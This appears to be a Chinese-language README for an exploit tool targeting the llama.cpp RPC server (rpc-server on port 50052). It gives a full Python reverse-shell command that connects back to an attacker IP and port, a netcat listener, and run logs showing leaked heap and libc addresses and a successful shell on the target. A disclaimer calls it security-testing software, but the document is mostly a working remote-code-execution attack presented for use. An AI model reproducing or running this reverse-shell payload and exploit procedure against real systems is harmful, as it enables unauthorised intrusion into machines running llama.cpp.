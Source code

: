 # 简介：
llama.cpp攻击程序

## 文档说明
llama.cpp_exp.py           #本地成功的exp脚本
llama.cpp_exp_pre.py       #之前的版本，写复杂了
llama.cpp_exp_debug.py     #里面包含关键变量的调试过程，可以借鉴


## 程序说明：
默认的目标llama.cpp程序运行环境IP是localhost，端口50052，实际使用过程中，使用者需要修改对应的IP及端口
```bash
IP = 'localhost'                            #目标程序IP
PORT = 50052                                #目标程序端口
REVERSE_SHELL_IP = '127.0.0.1'              #攻击者IP
REVERSE_SHELL_PORT = 6666                   #攻击者监听端口
CMD = f'''python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{REVERSE_SHELL_IP}",{REVERSE_SHELL_PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])' '''
```


## 程序运行：
1. 执行llama.cpp程序
```bash
yzj@ldd:~/桌面/llama.cpp/build-rpc/bin$ ./rpc-server -p 50052
create_backend: using CPU backend
Starting RPC server on 0.0.0.0:50052, backend memory: 5989 MB
```

2. 攻击者开启监听
```bash
yzj@ldd:~/桌面$ nc -lvp 6666
Listening on 0.0.0.0 6666
```
3. 攻击者运行程序
```bash
(llama_venv) yzj@ldd:~/桌面/python_venv$ python3 hack.py
[+] Opening connection to localhost on port 50052: Done
[*] Closed connection to localhost port 50052
[+] Opening connection to localhost on port 50052: Done
[*] heap_leak = 0x60492a64e630
[*] set_tensor_addr:0x73f45536b7a0
[*] libgmml_base:0x73f455315000
[*] libc_got_puts:0x73f454c80e50
[*] lib_base:0x73f454c00000
[*] system_addr:0x73f454c50d70
[+] Executing command: Done
[*] Closed connection to localhost port 50052
```

4. 程序Getshell成功
```bash
yzj@ldd:~/桌面$ nc -lvp 6666
Listening on 0.0.0.0 6666
Connection received on localhost 59752
$ ls
linux_server64
llama-baby-llama
llama-batched
llama-batched-bench
llama-bench
llama-bench-matmult
llama-cli
```

## 程序运行差异性说明：
由于靶机环境可能存在差异，所以exp程序运行时，地址可能存在偏移，需计算偏移后的地址，
如需要技术支持，请联系人工智能安全实验室曹辉，杨忠杰，邮箱2207862552@qq.com



## 异常说明：
出现如下情况：
Traceback (most recent call last):
  File "/home/yzj/桌面/python_venv/llama_venv/lib/python3.10/site-packages/pwnlib/tubes/sock.py", line 39, in recv_raw
    data = self.sock.recv(numb, *a)
ConnectionResetError: [Errno 104] Connection reset by peer

这类情况属于正常，尝试，重新打开窗口执行。


## 法律声明：
该工具仅用于安全检测，不提供漏洞利用能力，用户在使用前请务必了解漏洞的详细信息，并遵守当地法律法规。


## 帮助：
若使用者在使用过程中，存在问题，请联系邮箱2207862552@qq.com
